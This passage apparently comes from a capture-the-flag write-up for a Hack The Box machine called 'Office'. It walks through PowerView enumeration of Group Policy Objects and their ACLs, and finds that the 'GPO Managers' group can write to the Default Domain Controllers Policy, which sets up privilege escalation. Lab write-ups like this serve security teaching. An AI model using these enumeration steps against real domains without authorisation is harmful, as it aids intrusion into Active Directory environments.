 ```markdown
ModificationTime : 5/10/2023 8:47:04 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :

DisplayName      : Password Policy GPO
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : ec1feba4-db03-4721-81db-b0baa61ffa18
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 5/10/2023 9:46:49 AM
ModificationTime : 5/10/2023 8:46:48 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```
Notice the `Default Domain Controllers Policy` GPO and take note of its `Id: 6AC1786C-016F-11D2-945F-00C04fB984F9`.<br>
<br>
Upload a copy of PowerView (https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) and continue enumerating, for example, the `GPO Managers` group.
```markdown
> Get-NetGroup -name *GPO*

usncreated            : 57690
grouptype             : GLOBAL_SCOPE, SECURITY
samaccounttype        : GROUP_OBJECT
samaccountname        : GPO Managers
whenchanged           : 5/10/2023 4:48:34 PM
objectsid             : S-1-5-21-1199398058-4196589450-691661856-1117
objectclass           : {top, group}
cn                    : GPO Managers
usnchanged            : 57694
dscorepropagationdata : 1/1/1601 12:00:00 AM
name                  : GPO Managers
distinguishedname     : CN=GPO Managers,CN=Users,DC=office,DC=htb
member                : CN=HHogan,CN=Users,DC=office,DC=htb
whencreated           : 5/10/2023 4:48:23 PM
instancetype          : 4
objectguid            : ab92e389-387b-4346-94e5-84b3e3c27ac5
objectcategory        : CN=Group,CN=Schema,CN=Configuration,DC=office,DC=htb
```
Take note of the `ojectsid: S-1-5-21-1199398058-4196589450-691661856-1117` and move forward.
Next step is to enumerate all the permissions for all GPO in the current domain with PowerView.
```markdown
> Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```
The ouput is very large but, if you analyze it carefully, you'll see group `GPO Managers` (`S-1-5-21-1199398058-4196589450-691661856-1117`) have write permissions on the `Default Domain Controllers Policy` (`6AC1786C-016F-11D2-945F-00C04fB984F9`).
```markdown
[…]
AceType               : AccessAllowed
ObjectDN              : CN={6AC1786C-016F-11D2-945F-00C04fB984F9}, CN=Policies, CN=System, DC=office, DC=htb
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             :
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
```